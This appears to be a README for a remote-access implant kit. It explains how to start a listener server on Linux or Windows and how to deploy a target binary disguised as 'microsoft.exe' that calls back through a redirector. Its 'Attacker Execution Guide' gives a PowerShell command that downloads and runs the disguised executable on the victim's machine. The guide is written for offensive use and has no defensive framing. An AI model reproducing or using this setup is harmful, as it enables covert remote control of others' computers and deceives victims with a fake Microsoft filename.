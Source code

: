 # Remote Process Tool Setup Guide

# Linux Server Guide

	- Linux server ELF is found in Server/linux-x64/publish/DLServer

	- chmod DLServer and run it by calling ./DLServer [port]

	- This will start a TcpListener on port "port" *If port is left blank the default port is set to 8080*


# Windows Server Guide

	- Windows server EXE is found in Server\win-x64\publish\DLServer.exe

	- This can be run by calling .\DLServer.exe [port]

	- This will start a TcpListener on port "port" *If port is left blank the default port is set to 8080*


# Target Execution Guide

	- The target EXE is found in the "WinBinary" directory labelled as "microsoft.exe"

	- If you are using a redirector run the command ".\microsoft.exe [redirector_ip] [redirector_port]"

	- If you are doing a straight callback to your server run the command ".\microsoft.exe [your_ip] [your_port]" *Note this is not recommended*


# Attacker Execution Guide

	- Setup your redirector to listen and forward to your DLServer

	- Host the windows executable on a HTTP server

	- Run the following command on the client to download and execute:
		"Invoke-WebRequest "hosted_exe" -OutFile microsoft.exe;.\microsoft.exe [redirector_ip] [redirector_port]" or do whatever you want
